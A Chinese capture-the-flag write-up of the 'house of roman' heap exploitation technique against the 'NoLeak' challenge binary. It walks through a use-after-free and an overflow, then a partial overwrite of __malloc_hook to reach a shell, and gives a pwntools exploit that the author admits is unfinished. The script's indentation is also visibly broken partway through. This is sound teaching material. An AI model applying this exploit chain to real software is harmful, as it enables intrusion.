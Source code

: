 #qctf noleak

**house of roman** 
题目为xman选拔赛 Noleak 
当时没做出来，今天有时间看了下wp 
题目主要是利用了aslr的低地址随机化程度不高，利用局部写可以得到一些我们想要的值， 
题目中的漏洞很明显，一个是delete函数没有对指针清零，另一个就是update函数可以越界写 
主要的难点就是没有printf之类的函数，不能泄露地址

```
void delete()
{
  unsigned int v0; // [rsp+Ch] [rbp-4h]

  say("Index: ", 7u);
  v0 = getinput();
  if ( v0 <= 9 )
    free(heaplst[v0]);                          // didnt nullified
}      

                                     // can uaf maybe
```

——————————————————————————————————————————————————————

```
int edit()
    {
      void *v0; // rax
      unsigned int nbytes; // ST0C_4
      int idx; // [rsp+8h] [rbp-8h]

      say("Index: ", 7u);
  LODWORD(v0) = getinput();
  idx = v0;
  if ( v0 <= 9 )
  {
    v0 = heaplst[v0];
    if ( v0 )
    {
      say("Size: ", 6u);
      nbytes = getinput();                      // over flow
      say("Data: ", 6u);
      LODWORD(v0) = read(0, heaplst[idx], nbytes);
    }
  }
  return v0;
}
```

首先构造五个堆块，零号堆块的作用主要是堆结构的对齐以及修改一号堆块大小，风水堆块 
其后的四个堆块分别大小为 0xd0 0x70 0xd0 0x70 
目的主要是要利用unsortedbinattack以及fastbinattck，并且要保证不合并以及不被topchunk吞掉 
控制一号堆块中的内容，使其看起来像是两个堆块，并且前一个堆块的大小为0x70，为后续的fastbin attack做准备 
delete掉一号堆块和三号堆块，这时一号堆块fd指向mainarena，bk指向3号堆块 
再次分配1号堆块，使原有的指针信息得以保留 
释放2号和四号堆块，使其进入fastbin 
利用0号堆块修改1号堆块的size为0x71，并利用uaf修改4号堆块的指针低字节，由于堆上的偏移固定，则可以令其指向1号堆块 
修改一号堆块的fd指针的低2字节令其指向malloc hook - 0x23处 
分配三个0x70大小的堆块，这样第三个堆块就是在mallochook附近了 
我们现在需要向malloc hook 写入onegadget的地址，但是现在我们并不具有具体地地址信息，我们知道通过unsortedbinattack可以向任意地址写入固定值，这个固定值通过修改低字节可以得到onegadget的地址 
这样我们修改三号堆块的bk指针使其指向malloc hook - 0x10，向malloc hook 写入一个main_arena 地址，通过修改刚刚申请到的位于malloc hook附近的堆块，改写其低字节，我们就可以达到使malloc hook 指向onegadget的效果 
double free即可getshell

exp:

```
from pwn import *
context.log_level = 'debug'
context.arch = "amd64"
io = process('./NoLeak')
elf = ELF('NoLeak')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

one = 0xe9415
def add(size,data):
    io.recvuntil(':')
    io.sendline('1')
    io.recvuntil('Size:')
    io.sendline(str(size))
    io.recvuntil

(':')
        io.sendline(data)
    def delete(index):
        io.recvuntil(':')
        io.sendline('2')
        io.recvuntil('Index:')
        io.sendline(str(index))
    def update(index,size,data):
        io.recvuntil(':')
        io.sendline('3')
        io.recvuntil('Index:')
        io.sendline(str(index))
        io.recvuntil('Size:')
        io.sendline(str(size))
        io.recvuntil('Data:')
        io.sendline(data)
    add(0x10,'A'*0x10)#0
    add(0xc0,'B'*0xc0)#1
    add(0x60,'C'*0x60)#2
    add(0xc0,'D'*0xc0)#3
    add(0x60,'E'*0x60)#4

    update(1,0xc0,'B'*0x68 + p64(0x61)) #split 1 to 2 chunks
    delete(1)
    delete(3)
    add(0xc0,'')#5 == 2
    delete(2)
    delete(4)
    update(0,0x20,'A'*0x18 + p64(0x71))
    update(4,1,'\x20')
    update(2,1,'\x1d')
    add(0x60,'E'*0x60)#6
    add(0x60,'C'*0x60)#7
    add(0x60,'')#8 --- mlh
    delete(7)
    update(7,8,p64(0))
    update(3,0x10,p64(0)+'\x0d')
    add(0xc0,'D'*0xc0)
    #_______brute force_______#
    update(8,0x13,'A'*3 + '\x15\x94\x0e')
    delete(0)
    delete(0)
    io.interactive()
    gdb.attach(io)
    raw_input()
```

exp并没有写完，因为我的虚拟机有些问题。。而且还要写暴力破解，懒 
总结一下： 
house of roman 主要就是通过改写低字节来控制指针的指向，通过fastbin的fd以及unsortedbin的fd，bk指针的一些特性达到控制堆地址和libc地址的效果，本质上是unsorted bin attack 结合 fastbin attack 
首先控制写malloc hook 的堆块，而后利用unsorted bin attack向mallochook写入固定值，改写低地址 
